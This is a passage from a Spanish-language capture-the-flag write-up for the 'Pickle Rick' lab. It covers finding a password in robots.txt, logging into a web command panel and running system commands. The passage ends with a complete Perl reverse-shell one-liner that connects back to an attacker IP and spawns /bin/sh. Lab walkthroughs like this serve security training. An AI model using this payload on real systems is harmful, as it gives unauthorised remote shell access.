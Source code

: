 ![""](/assets/images/thm-picklerick/picklerick4.png)

El archivo **robots.txt** contiene la frase ***Wubbalubbadubdub***, por lo que podría ser una posible contraseña del usuario que tenemos y además, en el recurso **login.php** (el recurso **portal.php** nos redirige a login.php) se tiene un panel de acceso, por lo que podriamos tratar de acceder:

![""](/assets/images/thm-picklerick/picklerick5.png)

Se tiene una linea de comandos, por lo tanto podríamos tratar de ejecutar algún comando:

![""](/assets/images/thm-picklerick/picklerick6.png)

Vemos que podemos ejecutar comandos a nivel de sistema, por lo tanto, podríamos tratar de entablarnos una reverse shell, para este caso en especial, utilizaremos perl de acuerdo con [PentestMonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):

```perl
perl -e 'use Socket;$i="10.9.85.95";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
